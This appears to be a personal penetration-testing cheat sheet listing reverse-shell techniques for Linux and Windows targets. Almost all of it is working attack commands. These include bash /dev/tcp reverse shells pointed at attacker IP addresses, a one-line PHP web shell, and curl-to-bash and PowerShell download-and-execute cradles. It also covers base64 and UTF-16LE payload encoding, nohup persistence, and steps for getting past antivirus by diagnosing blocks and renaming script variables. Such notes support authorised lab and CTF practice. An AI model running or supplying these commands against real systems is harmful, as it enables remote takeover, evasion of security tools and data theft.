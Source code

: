 # Reverse Shells - Examples

https://www.revshells.com/

# Test that we can rev shell

	Before trying to get a rev shell, we might want to try a ping <ip> into a tcp dump or a uname -a | nc <ip> <port>, to see if we actually get a callback

## Bash

	bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1

	if the shell being used is dash and not bash (check by doing ls -la /bin/sh)

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"
	To use the bash's built-in /dev/tcp device file the use must use /bin/bash as shell. Often it uses sh or dash, then you can use bash -c "<cmd>" to force the bash

## Web shells

### PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

One liner:

	echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm

You can also forward config the shell:

	export TERM=xterm-256color
	stty rows 67 columns 318

## Powershell

Save a powershell from https://www.revshells.com/ to a file. Start the netcat listener and a http server in the dir of the revshell we just saved.
Download and execute the shell with this one liner:

	powershell.exe -c iex (iwr -UseBasicParsing http://10.10.14.119:8000/my_ps_shell.ps1)

## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash

Download reverse shell file and imediately execute it

	curl 'http://10.10.16.20:2020/test.sh'|bash

Convert shell to base64 when sending it through http:

	echo -n 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1' | base64 -w0
	YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0IDA+JjE=

	To get rid of the special characters like the plus sign just add double splaces:

	echo -n 'bash  -i  >&  /dev/tcp/10.10.14.93/4444  0>&1'
	YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx

	Then when sending the payload do:
	echo -n YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx | base64 -d | bash

	Try something but with 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

If the process of our shell is being killed by the target host, we can try creating in a new process:

	'nohup bash -c " bash -i >& /dev/tcp/ip/port 0>&1" &'

## Windows Reverse shells

Download nishang powershell:

	git clone https://github.com/samratashok/nishang.git

Copy the desired rev shell to your webserver directory:

	cp nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 <webserver_path>/rev_shell.ps1

Delete the comments on the rev shell and change the ip and port to your localhost ip and netcat port. When starting the netcat use the rlwrap utility so that we have access to the up and down arrows for command history:

	rlwrap nc -nvlp 5555
	https://github.com/hanslub42/rlwrap.git

Now to download the rev_shell to the remote host we are gonna use a web cradle. The importance of this is that it something goes wrong and the antivirus blocks or connections, the web cradle helps determine what went wrong.

	IEX(New-Object Net.WebClient).downloadString('http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1')
	https://github.com/Andre92Marcos/myScripts/blob/main/web_cradle.ps1

If the web cradle does not reach our web server, we know that very likely the antivirus is blocking us from downloading the rev shell. Otherwise it problably is blocking the rev shell execution itself.

We change the relevant information in the web_cradle and next we are going to convert the web cradle to utf-16 little endian and then to base 64:

	cat web_cradle.ps1 | iconv -t utf-16le | base64 -w0

The reaseon we are converting to utf-16le is for Windows compability.

And finally we powershell the base64 string in the remote host:

	poweshell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAOgA4ADAAMAAwAC8AcgBlAHYAXwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=

If we get a hit on the webserver trying to download the shell, but don't get the shell on the nc we know that the web cradle is working but the antivirus is blocking the rev shell. If this happens try changing the cradle to:

	IEX(IWR -UseBasicParsing http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1)

And then change the var names in the rev shell script (already done in this shell):

	https://github.com/Andre92Marcos/myScripts/blob/main/rev_shell_anti_virus.ps1


## Resources

https://security-tips.vincd.com/reverse-shell/

https://github.com/samratashok/nishang